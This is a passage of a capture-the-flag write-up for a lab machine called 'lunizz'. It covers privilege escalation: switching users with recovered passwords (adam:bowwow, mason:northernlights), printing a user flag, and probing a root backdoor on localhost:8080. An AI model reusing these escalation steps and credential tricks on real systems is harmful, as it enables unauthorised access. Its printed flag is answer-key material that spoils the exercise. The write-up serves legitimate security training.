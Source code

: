 - we are able to switch user to adam using

`adam:bowwow`


```
$ id
id
uid=1000(adam) gid=1000(adam) groups=1000(adam)
```

### Priv Esc 2 

- We find a text in adam's home driectory

```
adam@lunizz:~/Desktop/.archive$ cat to_my_best_friend_adam.txt
cat to_my_best_friend_adam.txt
do you remember our place 
i love there it's soo calming
i will make that lights my password

--

https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000

```

- used writeup here

- We are able to switch users to `mason` using
```
adam@lunizz:/$ su mason       
su mason
Password: northernlights
```

- and the flag
```
mason@lunizz:~$ cat user.txt
cat user.txt
thm{23cd53cbb37a37a74d4425b703d91883}
```

### Priv ESC - 3 root

- here i already had a hint of using 

`curl http://localhost:8080/`

- it is a root backdoor

```


*   Please Send Request (with "password" and "cmdtype")  *

-------------CMD TYPES-------------
lsla
reboot
passwd
```
